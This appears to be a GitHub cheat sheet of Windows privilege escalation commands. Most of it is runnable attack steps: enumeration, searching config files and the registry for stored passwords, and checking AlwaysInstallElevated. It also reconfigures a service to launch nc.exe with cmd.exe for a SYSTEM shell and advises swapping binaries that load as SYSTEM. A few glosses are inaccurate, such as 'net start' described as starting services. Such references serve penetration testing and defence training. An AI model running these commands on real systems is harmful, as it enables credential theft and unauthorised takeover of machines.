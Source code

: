 # Windows Privilege Escalation

Windows privilege escalation commands.

### 1. SYSTEM INFORMATION + ACCOUNTS

```powershell
$ systeminfo | findstr /C:"OS Name" /C:"OS Version" /C:"Logon Server"
$ echo %username%         # current user
$ whoami                  # current user
$ set                     # env variables
$ net users               # return a list of all user accounts on the system
$ net user [user]         # return detailed info about a user
```

### 2. NETWORKING

```powershell
$ ipconfig /all           # show details for all network interfaces, physical and logical
$ route print             # show the routing table - set of rules to determine where packets will be directed
$ arp -A                  # show the ARP cache table - a cache of IP / unique MAC address pairs in a single LAN

$ netstat -ano                # show current TCP/IP network connections
$ netsh firewall show state   # show firewall state
$ netsh firewall show config  # show firewall configuration
```

### 3. WINDOWS TASKS

TAKE THE TIME TO INSPECT ALL BINPATHS FOR WINDOWS SERVICES, SCHEDULED TASKS AND STARTUP TASKS.
```powershell
$ schtasks /query /fo LIST /v   # show scheduled tasks (verbose)

$ tasklist /SVC                 # show running processes / associated services

$ net start                     # start Windows services

$ driverquery                   # show 3rd-party drivers

$ net user %username%           # show info about user
```

### 4. QUICK WINS

Missing Windows patches:
1. `wmic qfe get Caption,Description,HotFixID,InstalledOn` (mostly not available to non-admins)
2. Find Windows privesc exploits.
3. Grep for their existence in the output of `wmic` (using KB numbers)
4. If any exploits are missing from the patchlist, use them and profit.

Hardcoded redentials in config files:
```powershell
# LEVEL 1
$ type C:\sysprep.inf
$ type C:\sysprep\sysprep.xml
$ type %WINDIR%\Panther\Unattend\Unattended.xml
$ type %WINDIR%\Panther\Unattended.xml

# LEVEL 2
$ dir /s *pass* == *cred* == *vnc* == *.config*

# LEVEL 3 (.xml .ini .txt)
$ findstr /si password *.xml *.ini *.txt

# LEVEL 4 (in registry)
$ reg query HKLM /f password /t REG_SZ /s
$ reg query HKCU /f password /t REG_SZ /s
```

"AlwaysInstallElevated": this setting allows users of any priv to install .msi files as SYSTEM.
```powershell
# Output of both commands need to = 1
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```


### 5. WINDOWS SERVICES, FILE/FOLDER PERMISSIONS

For restarting services or binaries, try various methods to restart:
```powershell
$ net start
$ sc start
$mysql> RESTART;    # using service commands itself to restart
```

Windows weak service permissions:
```powershell
$ sc qc [servicename]               # query service

$ accesschk.exe /accepteula         # DO THIS FIRST
$ accesschk.exe -ucqv UPNPHOST      # check required priv for every service using accesschk.exe
$ accesschk.exe -uwcqv "Authenticated Users" * # find services which allow access for "Authenticated Users"
```

Reconfigure Windows services to escalate privileges:
```powershell
$ sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
$ sc config upnphost obj= ".\LocalSystem" password= ""
$ net start upnphost
```

File and folder permissions:
* Look for weak permissions such as "NT AUTHORITY\AUTHENTICATED USERS: <I> <M>"
* For binaries that load with SYSTEM privileges, replace with your own binary.

```powershell
$ icacls [file or folder path]
$ cacls [file or folder path]
$ accesschk.exe -dqv [file or folder path]
```

Find all weak folder permissions per drive:
```powershell
$ echo Finding all weak folder permissions per drive
$ accesschk.exe -uwdqs Users c:\ /accepteula
$ accesschk.exe -uwdqs "Authenticated Users" c:\
```

Find all weak file permissions per drive:
```powershell
$ accesschk.exe -uwqs Users c:\*.* /accepteula
$ accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

Check PATH system variable:
* All non-default directories in root `C:\` will give WRITE access to the Authenticated Users group!!!
* Look for non-default dirs in `%path%`
